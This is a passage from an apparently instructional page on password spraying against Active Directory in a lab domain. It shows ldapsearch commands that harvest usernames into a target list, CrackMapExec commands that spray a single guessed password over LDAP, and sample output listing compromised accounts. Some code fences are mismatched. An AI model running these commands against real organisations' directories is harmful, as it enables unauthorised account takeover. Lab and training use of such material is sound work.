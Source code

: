 -   **Credential Validation**  
    Verifying that sprayed passwords worked, using protocols like LDAP bind or SMB authentication.
    

----------

### Tools & Commands

-   **ldapsearch** (Kali Linux) – Build target lists via LDAP
    
    ```
    ldapsearch -x -H ldap://dc1.lab.local \
      -b "OU=Sales,DC=lab,DC=local" \
      "(objectCategory=person)" sAMAccountName > targets.txt
    ```
    
    _Expected Output Snippet (targets.txt):_
    
    ```
    jdoe
    asmith
    mbrown
    ```
    
-   **CrackMapExec** (Linux/Windows) – Spray passwords via SMB/LDAP
    
    ```
    # echo "Spring2025!" | cme ldap lab.local -u targets.txt --continue-on-success
    ```

### Windows example (PowerShell)

cme ldap lab.local -u targets.txt -p "Spring2025!" --continue-on-success

```
_Expected Output Snippet:_
```text
[*] LAB\jdoe:Spring2025! (LDAP)  
[*] LAB\asmith:Spring2025! (LDAP)
```

----------

### Step-by-Step Guide

1.  **Generate a focused target list**
    
    ```
    ldapsearch -x -H ldap://dc1.lab.local \
      -b "OU=IT,DC=lab,DC=local" \
      "(objectClass=person)" sAMAccountName > targets.txt
    ```
    
    _Result:_  `targets.txt` with IT department usernames.
    